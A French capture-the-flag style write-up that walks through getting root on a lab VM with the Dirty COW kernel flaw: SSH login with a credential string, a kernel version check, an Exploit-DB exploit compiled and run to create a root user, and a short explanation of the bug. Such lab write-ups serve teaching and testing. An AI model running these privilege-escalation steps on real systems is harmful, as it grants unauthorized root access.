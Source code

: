 # Dirty COW

On se connecte en ssh à la machine avec les credentials:
```
$ ssh laurie@<IP>
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

# Version KERNEL
On vérifie la version du Kernel
```
$ uname -a
```

On se rend compte que la version de Kernel (3.2.0-91) est vulnérable a la faille Dirty COW.

Après quelques recherches sur le net, on tombe sur ce site qui met à disposition un exploit pour Dirty COW.
```
https://www.exploit-db.com/exploits/40839
```

# Exploit
On copie le fichier ```exploit_dirty.c``` dans la VM.
```
$ scp exploit_dirty.c laurie@<IP>:/home/laurie 
```

On compile
```
$ gcc -pthread exploit_dirty.c -o dirty -lcrypt
```

On exécute
```
$ ./dirty <NEW-PASSWORD>
```

On exécute ```su firefart``` avec le mot de passe choisi.

On verifie l'uid
```
$ id
```

On se rend compte que nous sommes uid=0. BINGO!!!

On se deplace dans le dossier ```/root``` et avec un ```cat README``` on se rendre compte que nous sommes root sur la machine!


# Explication de la faille
La faille Dirty COW touche le noyau Linux à partir de la version 2.6.22 (Septembre 2007) jusqu'à la version 4.4.25 inclus. Elle a été corrigé depuis la version 4.4.26.
Elle exploite les fonctionnalités Copy-On-Write (COW) du noyau, d'où son nom. C'est par ce biais que le pirate peut atteindre et écrire sur des espaces memoire qui, normalement, ne sont qu'en lecture seule. 
De cette facon, il est possible de faire une élévation de privilèges et devenir root.

La faille Dirty COW a été découverte par Phil Oester.

```
Video Youtube
Lien: https://www.youtube.com/watch?v=kEsshExn7aE
```
